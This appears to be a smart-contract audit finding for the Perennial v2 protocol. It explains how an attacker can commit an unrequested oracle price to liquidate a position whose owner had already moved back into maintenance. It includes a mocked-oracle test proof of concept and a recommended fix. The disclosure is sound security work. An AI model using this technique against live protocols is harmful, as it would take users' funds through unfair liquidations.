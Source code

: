 Calm Gingham Beaver

medium

# Positions can be liquidated without ever having been unmaintained

## Summary

If a user updates their position to reduce leverage in expectation of it falling below maintenance due to an upcoming price change, normally the system should simply process that update at the next version change, preventing the user from being liquidated. However, it's possible for an attacker to commit an unrequested price update, effectively marking the position as being in an unmaintained state and allowing it to be liquidated regardless of the users prior update to hold maintenance.

## Vulnerability Detail

This vulnerability is possible due to a similar issue noted in https://gist.github.com/panprog/9ddcffda0b6449b92577010ca6c4b262, although this vulnerability remains regardless of the recommendation of the previously disclosed finding.

The problem lies in the fact that when an unrequested version is committed during the same requested version as a position change, regardless of the price change, the pending position isn't settled until the next requested version. As a result, even though the position was never in an unmaintained state, an attacker can simply commit an unrequested price and liquidate the position given that it's unmaintained with the new, unrequested, price.

## Impact

Users can be liquidated without their position ever being unmaintained.

## Code Snippet

Proof of Concept:

```solidity
it('liquidate maintained position', async () => {
  const positionMaker = parse6decimal('20.000')
  const positionLong = parse6decimal('10.000')
  const collateral = parse6decimal('1000')
  const collateral2 = parse6decimal('350')
  const maxPosition = parse6decimal('4611686018427') // 2^62-1
  
  const oracleVersion = {
      price: parse6decimal('100'),
      timestamp: TIMESTAMP,
      valid: true,
  }
  oracle.at.whenCalledWith(oracleVersion.timestamp).returns(oracleVersion)
  oracle.status.returns([oracleVersion, TIMESTAMP + 100])
  oracle.request.returns()
  
  // maker
  dsu.transferFrom.whenCalledWith(userB.address, market.address, collateral.mul(1e12)).returns(true)
  await market.connect(userB).update(userB.address, positionMaker, 0, 0, collateral, false)
  
  // user opens long=10
  dsu.transferFrom.whenCalledWith(user.address, market.address, collateral2.mul(1e12)).returns(true)
  await market.connect(user).update(user.address, 0, positionLong, 0, collateral2, false)
  
  const oracleVersion2 = {
      price: parse6decimal('100'),
      timestamp: TIMESTAMP + 100,
      valid: true,
  }
  oracle.at.whenCalledWith(oracleVersion2.timestamp).returns(oracleVersion2)
  oracle.status.returns([oracleVersion2, TIMESTAMP + 200])
  oracle.request.returns()
  
  // price moves against user, so he's at the edge of liquidation and tries to close
  // position: latest=10, pending [t=200] = 0 (closable = 0)
  await market.connect(user).update(user.address, 0, 0, 0, 0, false)
  
  const oracleVersion3 = {
      price: parse6decimal('92'),
      timestamp: TIMESTAMP + 190,
      valid: true,
  }
  oracle.at.whenCalledWith(oracleVersion3.timestamp).returns(oracleVersion3)
  oracle.status.returns([oracleVersion3, TIMESTAMP + 300])
  oracle.request.returns()
  
  var loc = await market.locals(user.address);
  var posLatest = await market.positions(user.address);
  var posCurrent = await market.pendingPositions(user.address, loc.currentId);
  console.log("Before liquidation. Latest= " + posLatest.long + " current = " + posCurrent.long);
  
  // t = 205: price drops to 92, user becomes liquidatable before the pending position oracle version is commited
  // liquidator commits unrequested price = 92 at oracle version=190
  // User pending positions:
  //   latest = 10
  //   pending [t=200] = 0
  //   current(liquidated) = 0
  await market.connect(user).update(user.address, 0, 0, 0, 0, true)
  
  var loc = await market.locals(user.address);
  var posLatest = await market.positions(user.address);
  var posCurrent = await market.pendingPositions(user.address, loc.currentId);
  console.log("After liquidation. Latest= " + posLatest.long + " current = " + posCurrent.long);
})
```

https://github.com/sherlock-audit/2023-10-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/keeper/KeeperOracle.sol#L165

## Tool used

Manual Review

## Recommendation

Unrequested version commitments introduce a lot of unexpected effects. Ultimately I see it as more of a hindrance than a feature, so I think consideration should be put in to the idea of removing it entirely. If not removed, it'll be necessary to make sure pending positions are synced to unrequested version commitments, even before the next requested commitment is processed.